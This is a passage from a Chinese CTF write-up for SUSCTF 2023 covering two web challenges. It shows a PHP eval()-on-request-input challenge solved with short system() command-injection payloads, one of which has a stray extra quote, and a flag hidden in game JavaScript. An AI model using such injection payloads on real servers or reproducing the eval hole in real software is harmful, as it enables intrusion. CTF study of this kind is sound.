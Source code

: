 ```yaml
---
title: SUSSEUWriteup
date: 2023-10-13 19:27:00.0
updated: 2023-10-13 07:33:56.897
url: /archives/susseuwriteup
categories: 
- CTF
tags: 
- writeup
---
```


# 0x00 [Web]PHP Is All You Need

## 题目描述

```php
<?php

// Revenge of last year's signin challenge
// Now you can't use a webshell tool to connect :)

isset($_REQUEST['cmd']) && strlen($_REQUEST['cmd']) < 20 && eval($_REQUEST['cmd']);

highlight_file(__FILE__);
```



## 题目解析

注意到，需要使用键为’cmd’作为参数提交，并且提交的值的长度小于20

第1次请求：`http://game.ctf.seusus.com:27160/?cmd=system("ls");`，注意结尾需要加分号，否则会报解析错误，新手容易犯。

得到如下结果：

```php
f1ag_6f5cd.php index.php <?php

// Revenge of last year's signin challenge
// Now you can't use a webshell tool to connect :)

isset($_REQUEST['cmd']) && strlen($_REQUEST['cmd']) < 20 && eval($_REQUEST['cmd']);

highlight_file(__FILE__);
```

观察到有 f1ag_6f5cd.php 文件

第2次请求：`http://game.ctf.seusus.com:27160/?cmd=system("tac f*"");`

得到flag：

```php
// susctf{PhP_1s_E4SY_165f22bea882} <?php

// Revenge of last year's signin challenge
// Now you can't use a webshell tool to connect :)

isset($_REQUEST['cmd']) && strlen($_REQUEST['cmd']) < 20 && eval($_REQUEST['cmd']);

highlight_file(__FILE__);
```

# 0x01 [Web] why not play a game

## 题目描述

点开玩游戏

## 题目解析

点开，提示if you got the maxscore 100000000000000000000000,i will show you flag :)

直接看 Javascript 源码即可，然后直接Ctrl+F搜maxScore即可

```javascript
...
var gameScore = 0;
//最高分
var maxScore = 1000000000000000000000000000000;
...

 if (gameScore > maxScore) {
            maxScore = gameScore;
            $('#maxScore').html(maxScore);
            localStorage.maxScore = maxScore;
            f14G="s"+"u"+"s"+"c"+"t"+"f{welcome_to_susctf_2023_ctf_is_so_fun}";
            alert('恭喜你创造了新纪录！f14G如下:'+f14G);
        }
        $('#gameOverModal').modal('show');
...
```

# 0x02 